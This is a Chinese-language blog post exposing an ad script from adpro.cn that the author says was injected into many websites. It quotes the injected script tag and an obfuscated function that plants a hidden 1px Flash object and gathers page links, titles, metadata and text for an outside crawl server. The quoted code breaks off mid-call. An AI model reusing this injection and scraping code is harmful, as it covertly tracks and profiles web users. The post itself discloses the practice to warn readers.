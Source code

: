 ```yaml
---
layout: post
title: Adpro.cn is Watching You
description:
categories: [blog, cn]
math: true
---
```


## 怎么发现的

访问一些网站的时候，有时出现 javascript 脚本错误，发现页面的最后有一行：

{% highlight javascript %}
<script>_guanggao_pub = "<长度20位的十六进制编码>";_guanggao_slot = "<长度20位的十六进制编码>";
</script><script src="http://x.adpro.cn/gngo.js"></script>
{% endhighlight %}

adpro 名字就说明了是广告相关的东西，最开始我以为那个网站的广告，后来发现几乎所有的网站都有。想必是被强行插入了。于是点击 adpro.cn 发现首页赫然写到 1.2 亿的覆盖面。你知道 1.2 亿的覆盖面怎么来的吗？


*偷来的。*


## 隐私偷取函数

整个[文件][5]的关键在这个函数：

{% highlight javascript 86 %}
function na(d) {
  var c = "http://" + G + "/crawl/er.swf?initrc=_proCrawlerInit&" + Math.random(),
      a = {};
  a[t] = '<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" \
         codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" ' 
         + x + "=1 " + y + '=1 id=_proCrawlerCom name=_proCrawlerCom><param name=movie value="' 
         + c + '"><param name=allowScriptAccess value=always><param name=quality value=low>\
	 <embed src="' + c + '" allowscriptaccess=always quality=low ' + x + "=1 " + y 
         + '=1 name=_proCrawlerCom id=_proCrawlerCom type="application/x-shockwave-flash">\
         </embed></object>';
  a[L] = A + ";" + u + ":1px;" + z + ":1px;" + x + ":1px;" + y + ":1px;overflow:hidden;";
  c = w("div", a);
  p[s](c, v);
  if ("html" !== d.type) {
      d = "";
      var c = k[D][oa]("meta"),
          e;
      for (e in c) c[e].name && -1 < "description,keywords".indexOf(c[e].name[H]()) 
        && (d += c[e].getAttribute("content")[I]());
      c = [];
      for (e in k.links) k.links[e].href && c[J]([k.links[e].href, k.links[e].innerText]);
      var b = {};
      b[pa] = $;
      b[r] = R;
      b[qa] = c;
      b[aa] = ha;
      b[ba] = k[ba] ? k[ba][H]().replace(/\s{2,}/g, " ").replace(/^\s+/, "").replace(/\s+$/, "")
      	      	    : "";
      b.text = (d + " " + p[T])[H]().replace(/<\s*\/?\w+[^>]*>/g,
          " ").replace(/[^0-9a-zA-Z\-\.\u4e00-\u9fa5]+/g, " ")
  }
  window._proCrawlerInit = function () {
      var a = window._proCrawlerCom;
      a && (a[K] && (a.splice || a.item) && (a = a[0].i8crawlPage ? a[0] : a[1]), a.i8crawlPage 
          && a.i8crawlPage(O + "//" + G + "/crawl/er", b, 

[1]: http://helpx.adobe.com/flash-player/kb/changes-allowscriptaccess-default-flash-player.html
[2]: http://code.tutsplus.com/tutorials/quick-tip-how-to-communicate-between-flash-and-javascript--active-3370
[3]: http://www.swftools.org/download.html
[4]: https://adblockplus.org/
[5]: http://x.adpro.cn/gngo.js
[6]: http://heartbleed.com/